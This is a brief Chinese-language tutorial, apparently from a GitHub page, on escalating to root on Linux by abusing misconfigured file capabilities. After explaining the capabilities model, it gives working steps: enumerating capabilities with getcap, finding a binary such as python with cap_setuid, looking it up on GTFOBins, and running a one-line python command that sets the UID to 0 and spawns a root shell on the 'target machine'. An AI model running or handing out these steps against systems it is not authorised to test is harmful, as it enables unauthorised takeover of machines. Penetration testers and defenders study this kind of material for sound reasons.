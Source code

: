 # 利用capabilities提权的方法

## Capabilities漏洞利用机制：
原理很简单，就是将之前与超级用户root（UID=0）关联的特权细分为不同的功能组，Capabilites作为线程（Linux并不真正区分进程和线程）的属性存在，每个功能组都可以独立启用和禁用。其本质上就是将内核调用分门别类，具有相似功能的内核调用被分到同一组中。
这样一来，权限检查的过程就变成了：在执行特权操作时，如果线程的有效身份不是root，就去检查其是否具有该特权操作所对应的capabilities，并以此为依据，决定是否可以执行特权操作。
如果Capabilities设置不正确，就会让攻击者有机可乘，实现权限提升。

## 利用思路：
收集带有capabilities属性的程序，而该程序带有capabilities就等于执行时带有特权，便可以用该程序进行uid的切换，切换为0即为root

## 操作
### 1.在目标机上以普通用户登录后运行
```
getcap -r /
或
getcap -r / 2>/dev/null
```
查看带有cat_setuid的capability的程序。
例子：
```
/usr/bin/python = cap_setuid_ep
```

### 2.根据该程序的名称到GTFOBins上进行查找，选择capabilities那一行
例子：
![3082583-20230323110811090-1289384431](https://github.com/user-attachments/assets/3e372a33-c9ac-4b0c-9813-38d6db09eb75)

### 3.在目标机上运行
```
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
即可为root
